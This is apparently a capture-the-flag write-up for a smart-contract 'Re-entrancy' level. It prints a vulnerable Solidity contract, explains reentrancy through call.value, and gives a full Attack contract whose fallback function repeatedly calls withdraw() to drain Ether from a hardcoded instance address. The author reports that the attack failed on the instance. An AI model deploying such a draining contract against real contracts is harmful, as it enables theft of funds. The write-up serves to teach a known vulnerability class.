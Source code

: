 # Re-entrancy
###### tags: `writeup`
```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

Reentrant means that a function can be interrupted in the middle of its execution and then safely be called again ("re-entered") before its previous invocations complete execution.

Any interaction from a contract A with another contract B and any transfer of Ether hands over control to that contract B. 

This makes it possible for B to call back into A before this interaction is completed.

So if you deploy a contract as B then use a fallback function to make A hand over Ether again(It must be reentrant), that will turn this loop into recursive.

For `transfer()` and `send()`, there's limit 2300 wei for gas, exceed this limit, hand over will be cancel.

However, here's `call.value(_amount)()` doesn't set the limit, therefore it uses all it got as gas to make sure this transfer succeed.


```go
pragma solidity ^0.4.18;
 
contract Reentrance {
 
  mapping(address => uint) public balances;
 
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
 
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
 
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
 
  function() public payable {}
}
contract Attack {

    address instance_address = 0xbbb055bd95b6e17d92b4d9c4a1a4696d69a0af1f;
    Reentrance target = Reentrance(instance_address);

    function Attack() payable{}
    // donate some ether to make withdraw accept
    function donate() public payable {
        target.donate.value(msg.value)(this);
    }    

    function get_balance() public view returns(uint) {
        return target.balanceOf(this);
    }

    function myBalance() public view returns(uint) {
        return address(this).balance;
    }

    function targetBalance() public view returns(uint) {
        return instance_address.balance;
    }
    // Make target start transfer
    function attack() public {
        target.withdraw(0.5 ether);
    }
    // Make it become recursive
    function () public payable {
        target.withdraw(0.5 ether);
    }
}
```
Well, I try hard but it just false my interaction, then sub my balances without sending any Ether.

Without fallback function, `withdraw()` will work pretty good though.

~~I think I need to debug this problem another day then.~~

![](https://i.imgur.com/TtoyUEV.png)

It seems the limit of call.value of this instance is also weird. 

Also due to my contract's withdraw() fail, instance should not sub amount from my account.

I afraid this level get some hotfix in wrong way(more secure).